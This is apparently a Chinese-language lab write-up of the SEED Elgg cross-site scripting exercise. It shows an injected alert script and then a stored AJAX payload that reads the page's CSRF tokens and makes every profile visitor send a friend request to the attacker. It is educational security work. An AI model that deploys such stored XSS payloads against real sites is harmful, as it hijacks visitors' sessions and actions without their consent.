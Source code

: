 #
#### xss攻击初试

登陆用户(Boby)后在编辑个人资料的brief description的输入框中`<script>alert("xss");<script>`  

![](/web-security/img/xss-2.png)

![](/web-security/img/xss-3.png)

可以看到成功，只要有人访问Boby主页就会弹出'xss'的信息,也证明了这个输入框存在xss漏洞  


#### 通过xss成为他人的好友

当其他人浏览器Boby的主页时，注入的代码被触发，自动发送一个添加为Boby为好友的请求  


首先查看添加一个好友时的请求，
![](/web-security/img/xss-4.png)

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1630823966&__elgg_token=R4VM1t8Ve2BxQwD3elcphg&__elgg_ts=1630823966&__elgg_token=R4VM1t8Ve2BxQwD3elcphg&logged_in=true
```
friend是用户的id  
__elgg_ts和__elgg_token是对应csrf的，这两个参数的值和具体的页面有关，因此js不能硬编码这两个值，需要在运行期间找到正确的值。  
cookie 会被浏览器自动设置，攻击者不需要担心这个字段，但是攻击者想要读取这个cookie值也是允许的，因为注入js代码确实来值当前页面。而在csrf攻击中，攻击者的代码来自第三方页面，因此不能访问当前页面的cookie  

由于__elgg_ts和__elgg_token是嵌入在页面里的，可以通过google浏览器右键查看网页源代码。可以找到如下代码
```
var elgg = {"config":{"lastcache":1587931381,"viewtype":"default","simplecache_enabled":1,"current_language":"en"},"security":{"token":{"__elgg_ts":1630825474,"__elgg_token":"gLI3JjeMwAhlKcagQO1jwA"}},"session":{"user":{"guid":57,"type":"user","subtype":"user","owner_guid":57,"container_guid":0,"time_created":"2020-04-26T15:22:48-04:00","time_updated":"2021-09-05T01:02:20-04:00","url":"http:\/\/www.seed-server.com\/profile\/boby","name":"Boby","username":"boby","language":"en","admin":false},"token":"0Os8m0A3xOBH6IkolTk19q"},"_data":{},"page_owner":{"guid":59,"type":"user","subtype":"user","owner_guid":59,"container_guid":0,"time_created":"2020-04-26T15:23:51-04:00","time_updated":"2020-04-26T15:23:51-04:00","url":"http:\/\/www.seed-server.com\/profile\/samy","name":"Samy","username":"samy","language":"en"}};
```
所以这个两个变量可以通过 elgg.security.token.__elgg_ts和elgg.security.token.__elgg_token两个js变量获得。  
boby的用户id是57   


构造一个请求，可以通过ajax，ajax可以在后台发送http请求不引起用户的警觉。把这段js代码还是放到个人信息的输入框中保存  
```
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  var sendurl = "http://www.seed-server.com/action/friends/add" 
                + "?friend=57" + token + ts;

  Ajax = new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```
